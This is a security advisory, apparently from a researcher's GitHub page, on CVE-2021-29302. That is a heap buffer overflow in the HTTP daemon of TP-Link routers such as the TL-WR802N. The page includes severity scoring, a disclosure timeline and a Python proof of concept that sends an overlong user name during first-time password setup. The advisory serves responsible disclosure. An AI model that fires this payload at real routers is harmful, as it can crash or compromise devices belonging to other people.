



# Buffer 0verflow in TP-Link Devices

## Overview

**CVE ID**: [CVE-2021-29302](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29302)

**Type**: Buffer overflow

**Vendor**: TP-LINK (https://www.tp-link.com)

**Products**: WiFi Router, such as [TL-WR802N(US)](https://www.tp-link.com/us/support/download/tl-wr802n/#Firmware), Archer_C50v5_US, etc.

**Version**: V4_200 <= 2020.06

**Fix**: [https://static.tp-link.com/beta/2021/202103/20210319/TL-WR802Nv4_US_0.9.1_3.17_up_boot[210317-rel64474].zip](https://static.tp-link.com/beta/2021/202103/20210319/TL-WR802Nv4_US_0.9.1_3.17_up_boot[210317-rel64474].zip)

## Severity

**High** 8.1 CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

| CVSS3.1             | Score     | Detail                                                       |
| ------------------- | --------- | ------------------------------------------------------------ |
| ATTACK VECTOR       | Network   | Connect the router through the network                       |
| ATTACK COMPLEXITY   | High      | It is necessary to use carefully constructed messages to attack when the  router has not set a password |
| PRIVILEGES REQUIRED | None      | No permissions are required                                  |
| USER  INTERACTION   | None      | No need for users to click                                   |
| SCOPE               | Unchanged | Null                                                         |
| CONFIDENTIALITY     | High      | RCE                                                          |
| INTEGRITY           | High      | RCE                                                          |
| AVAILABILITY        | High      | RCE                                                          |

## Description

There is a buffer overflow when HTTP body message is parsed by httpd  process, which may lead to remote code execution. For example, When we set the router password for the first time, the http daemon did not verify the external http message. If we transmit a long user name or password, it will cause the httpd process heap space to overflow.



The instruction where the error occurred is in the http binary



Crash log



## How to Reproduce (POC)

It is easy to reproduce this problem.

```python
# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 512 + "b" * 1024
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)
 
proxies = {
	"http": "http://127.0.0.1:8080",
}

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers, proxies=proxies)
print response.text
```

## Disclosure Timeline

- 14-Mar-2021 Discoverd the vulnerability
- 15-Mar-2021 Responsibly disclosed vulnerability to vendor
- 19-Mar-2021 Vendor Acknowledged the disclosure & Vendor provided software build to verify the issue
- 24-Mar-2021 Requested for CVE-ID assignment
- 29-Mar-2021 CVE-ID Assigned
- 9-Apr-2021 Update a CVE Record
- 10-Apr-2021 Notify CVE about a publication
